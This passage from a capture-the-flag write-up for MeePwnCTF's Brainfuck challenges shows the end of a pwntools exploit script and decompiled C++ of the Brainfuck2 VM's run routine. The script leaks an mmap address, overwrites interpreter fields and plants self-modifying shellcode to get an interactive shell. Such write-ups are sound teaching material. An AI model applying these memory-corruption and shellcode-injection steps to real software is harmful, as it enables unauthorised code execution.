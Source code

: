 ```python
    
    # leak mmap address 
    payload = "<"*0x28 # move to &bf_data->sc_buf
    payload += ".>"*8

    cmd(payload)
    sc_base = u64(r.recvuntil(">>")[:8:]) >> 8
    r.unrecv(">>")
    log.success("sc_base: "+hex(sc_base))
    
    # make size = 0x400 so it won't clear our shellcode
    write(-0x10, p64(0x400))
    # change bf_data->dp = our shellcode buffer
    write(-0x30, p64(sc_base+0x800))
    # write final shellcode to our shellcode buffer
    write(0, sc)
    # write to bf_data->sc_buf ( it will become a self-modified shellcode)
    init_sc = asm("mov rax, %s" % hex(sc_base+0x800))
    init_sc += asm("call rax")
    print "init_sc", init_sc.encode('hex')
    print "len:", len(init_sc)
    write(-0x70d, init_sc)
    r.interactive()
```

flag: `MeePwnCTF{this_is_simple_challenge_:banana-dance:}`


## Brainfuck2

For Brainfuck2, the binary is basically the same as Brainfuck1, except it has the following executing process:

```c++
BrainFuckVM *__fastcall BrainFuckVM::run(BrainFuckVM *this)
{
    char *sc_buf; // ST20_8@1
    BrainFuckVM *v2; // ST18_8@1
    BrainFuckVM *result; // rax@3

    sc_buf = this->sc_buf;
    v2 = this;
    /* allocate + memset bf_data->dp */
    this->dp = (char *)operator new[](0x100uLL);
    memset(this->dp, 0, 0x100uLL);
    /* set the sc_buf's permission to r-x*/
    mprotect(v2->sc_buf, v2->sc_size, 5); 
    ((void (__fastcall *)(char *))sc_buf)(this->bf_mem);
    /* set the sc_buf's permission back to rw-*/
    mprotect(v2->sc_buf, v2->sc_size, 3);
    this->sc_pos = 0LL;
    memset(v2->sc_buf, 0, v2->sc_size);
    /* free bf_data->dp */
    if ( this->dp )
      operator delete(this->dp);
    result = this;
    this->dp = 0LL;
    return result;
}
```

